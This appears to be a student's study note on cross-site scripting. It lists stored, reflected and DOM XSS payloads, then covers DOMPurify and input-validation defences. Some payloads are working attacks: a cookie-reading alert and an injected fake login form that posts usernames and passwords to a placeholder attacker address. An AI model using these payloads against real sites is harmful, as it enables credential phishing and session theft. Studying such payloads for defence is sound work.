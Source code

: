 
[![hackmd-github-sync-badge](https://hackmd.io/qK4OEeKlSUuvmWVzvrKJ2Q/badge)](https://hackmd.io/qK4OEeKlSUuvmWVzvrKJ2Q)
## [<span style=color:darkred>**Vulnerability Details**</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#vulnerability-details)

### <span style=color:red>Stored (Persistent) XSS</span>
#### Payload
```javascript!
<script>alert(window.origin)</script>
```
```javascript!
<script>print()</script>
```
```javascript!
<script>alert(document.cookie)</script>
```

### <span style=color:darkred>Non-Persistent</span>
``Must employ Social Engineer and specific URL to lure victim click``
### <span style=color:red>Reflected XSS</span>
#### Payload
```javascript
http://SERVER_IP:PORT/index.php?task=<script>alert(window.origin)</script>
```
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

### <span style=color:red>DOM (Document Object Model) XSS</span>
#### Payload
```javascript
<img src="" onerror=alert(document.cookie)>
```
---
##  [<span style=color:>**DOMPurify**</span>](https://github.com/cure53/DOMPurify#dompurify)

### <span style=color:darkblue>From-End</span>
#### Input validation
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
#### Input Sanitization
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
}
```

### <span style=color:darkblue>Back-End</span>
#### Input validation
``
For a NodeJS back-end, we can use the same JavaScript code mentioned earlier for the front-end.
``

#### Input Sanitization
```javascript
import DOMPurify from 'dompurify';
var clean = DOMPurify.sanitize(dirty);
```